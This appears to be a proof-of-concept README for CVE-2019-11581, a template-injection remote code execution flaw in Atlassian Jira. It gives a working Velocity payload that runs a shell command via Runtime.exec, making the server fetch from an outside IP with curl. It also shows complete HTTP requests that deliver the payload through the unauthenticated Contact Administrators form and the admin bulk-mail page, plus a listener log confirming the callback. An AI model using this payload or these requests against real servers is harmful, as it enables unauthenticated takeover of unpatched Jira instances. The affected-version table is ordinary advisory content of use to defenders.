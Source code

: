 
# CVE-2019-11581
## Atlassian JIRA Template injection vulnerability RCE

## Demo

`python CVE-2019-11581.py http://xx.xx.xx.xx:8080/ "Command"`

![](./CVE-2019-11581.jpg)

### Vuln Version Download
`https://product-downloads.atlassian.com/software/jira/downloads/atlassian-jira-software-7.13.0-x64.exe`
![](./v7.13.0.jpg)

### Poc
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('curl 47.97.112.98:8000//jas502n//').waitFor()
```
![](./version.jpg)
`Atlassian Jira Project Management Software (v7.13.0#713000-sha1:fbf4068)`

## 0x01 前台-联系网站管理员(No auth)
![](./ContactAdministrators.jpg)
![](./curl.jpg)
![](./log.jpg)
`subject=%24i18n.getClass%28%29.forName%28%27java.lang.Runtime%27%29.getMethod%28%27getRuntime%27%2Cnull%29.invoke%28null%2Cnull%29.exec%28%27curl+47.97.112.98%3A8000%2F%2Fjas502n%2F%2F%27%29.waitFor%28%29`

```
POST /secure/ContactAdministrators.jspa HTTP/1.1
Host: 10.10.20.116:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 356
Referer: http://10.10.20.116:8080/secure/ContactAdministrators!default.jspa
Cookie: atlassian.xsrf.token=B6MK-HX7C-MR43-860H_23d834a2bed060db3006caa1d13445a9612e0d2a_lout; JSESSIONID=FCC6A28A80F6BBB6610A54327E4E8C66
X-Forwarded-For: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1

from=232334%40qq.com&subject=%24i18n.getClass%28%29.forName%28%27java.lang.Runtime%27%29.getMethod%28%27getRuntime%27%2Cnull%29.invoke%28null%2Cnull%29.exec%28%27curl+47.97.112.98%3A8000%2F%2Fjas502n%2F%2F%27%29.waitFor%28%29&details=23423423&atl_token=B6MK-HX7C-MR43-860H_23d834a2bed060db3006caa1d13445a9612e0d2a_lout&%E5%8F%91%E9%80%81=%E5%8F%91%E9%80%81
```
## 0x02 secure/admin/SendBulkMail.jspa (need administrator password)
![](./SendBulkMail.jpg)
```
POST /secure/admin/SendBulkMail.jspa HTTP/1.1
Host: 10.10.20.116:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 433
Referer: http://10.10.20.116:8080/secure/admin/SendBulkMail!default.jspa
Cookie: atlassian.xsrf.token=B6MK-HX7C-MR43-860H_6146f3bed0f204ae619d52a0323ecd41ea5ecb6b_lin; JSESSIONID=32D0E863B383BDAAF8049FA4339D5C26
X-Forwarded-For: 127.0.0.1
Connection: keep-alive
Upgrade-Insecure-Requests: 1

sendToRoles=true&projects=10000&roles=10002&replyTo=test%40qq.com&subject=%24i18n.getClass%28%29.forName%28%27java.lang.Runtime%27%29.getMethod%28%27getRuntime%27%2Cnull%29.invoke%28null%2Cnull%29.exec%28%27curl+47.97.112.98%3A8000%2F%2Fjas502n%2F%2F%27%29.waitFor%28%29&message=542342342&messageType=html&sendBlind=true&%E5%8F%91%E9%80%81=%E5%8F%91%E9%80%81&atl_token=B6MK-HX7C-MR43-860H_6146f3bed0f204ae619d52a0323ecd41ea5ecb6b_lin
```
### Receiving data packets
```
python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
1xx.xx.xx4 - - [16/Jul/2019 12:13:43] code 404, message File not found
1xx.xx.xx4 - - [16/Jul/2019 12:13:43] "GET //jas502n// HTTP/1.1" 404 -

```

## 开启-前台-联系网站管理员
![](./EditApplicationProperties.jpg)
`http://10.10.20.116:8080/secure/admin/EditApplicationProperties!default.jspa`
```
Choose the cog icon  > System .
Choose General Configuration.
Click Edit Settings.
Scroll down to the  Contact Administrators Form and set it to ON.
Enter your text in the  Contact Administrators Message box. If you need markup assistance, click the ? under the box. 
Click Update.
```

### Vuln Version
```
Affected Version	Fixed Version
4.4.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
5.x.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
6.x.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.0.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.1.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.2.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.3.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.4.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.5.x	7.6.14, 7.13.5, 8.0.3, 8.1.2, 8.2.3
7.6.x before 7.6.14	7.6.14, 7.13.5 (Enterprise Releases)
7.7.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.8.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.9.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.10.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.11.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.12.x	7.13.5, 8.0.3, 8.1.2, 8.2.3
7.13.x before 7.13.5	7.13.5 (Enterprise Release)
8.0.x before 8.0.3	8.0.3
8.1.x before 8.1.2	8.1.2
8.2.x before 8.2.3	8.2.3
```
